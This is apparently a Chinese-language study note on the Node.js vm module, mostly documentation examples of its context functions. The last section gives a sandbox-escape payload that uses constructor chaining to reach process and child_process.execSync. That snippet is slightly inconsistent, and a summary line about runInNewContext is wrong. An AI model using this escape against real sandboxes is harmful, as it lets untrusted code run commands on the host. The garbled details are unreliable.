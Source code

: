 ## vm 沙箱
### vm文档
https://nodejs.cn/api-v14/vm.htm
### vm沙箱常用函数
#### vm.runinThisContext(code)
`vm.runInThisContext()` 编译 `code`，在当前 `global` 的上下文中运行它并返回结果。 运行代码无权访问局部作用域，但可以访问当前 `global` 对象。

```js
const vm = require('vm');
let localVar = 'initial value';
  
const vmResult = vm.runInThisContext('localVar = "vm";');
console.log(`vmResult: '${vmResult}', localVar: '${localVar}'`);
// 打印: vmResult: 'vm', localVar: 'initial value'
  
const evalResult = eval('localVar = "eval";');
console.log(`evalResult: '${evalResult}', localVar: '${localVar}'`);
// 打印: evalResult: 'eval', localVar: 'eval'
```

#### vm.createContext([contextObject[, options]])
如果给定 `contextObject`，`vm.createContext()` 方法将准备那个对象，以便它可以用于调用 `vm.runInContext()` 或 `script.runInContext()`。 在此类脚本中，`contextObject` 将是全局对象，保留其所有现有属性，但也具有任何标准全局对象具有的内置对象和函数。 在 vm 模块运行的脚本之外，全局变量将保持不变。
```js
const vm = require('vm');

global.globalVar = 3;

const context = { globalVar: 1 };
vm.createContext(context);
vm.runInContext('globalVar *= 2;', context);

console.log(context);
// 打印: { globalVar: 2 }
console.log(global.globalVar);
// 打印: 3
```

从结果可以看出这个新的沙箱对象是独立于global外的一个独立作用域，而这个沙箱对象是这个作用域的全局对象，与global中的全局全局对象是不同的，相当于v8中的第二个global

#### vm.runInContext(code, contextifiedObject[, options])
`vm.runInContext()` 方法编译 code，在 `contextifiedObject` 的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。 `contextifiedObject` 对象必须之前已经使用 `vm.createContext(`) 方法上下文隔离化。
```js
const vm = require('vm');

const contextObject = { globalVar: 1 };
vm.createContext(contextObject);

for (let i = 0; i < 10; ++i) {
  vm.runInContext('globalVar *= 2;', contextObject);
}
console.log(contextObject);
// 打印: { globalVar: 1024 }
```
#### vm.runInNewContext(code[, contextObject[, options]])
`vm.runInNewContext()` 首先将给定的 `contextObject` 上下文化（如果作为 `undefined` 传入，则创建新的 `contextObject`），编译 code，在创建的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。
如果 `options` 是字符串，则指定文件名。
简单的说 `vm.runInNewContext = vm.createContext + vm.createContext`

### vm沙箱逃逸方法
#### 传递对象逃逸
```js
const vm = require("vm");

const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
//const y1 = vm.runInNewContext(`this.toString.constructor('return process')()`);
return y1.mainModule.require('child_process').execSync('whoami').toString()
console.log(y1);
```

这里的`this` 是传递给`runInNewContext`的对象，这个对象并不在沙箱环境中，接下来就和ssit相似的过程去获取构造器，以及构造器对象的构造器
## 参考文章
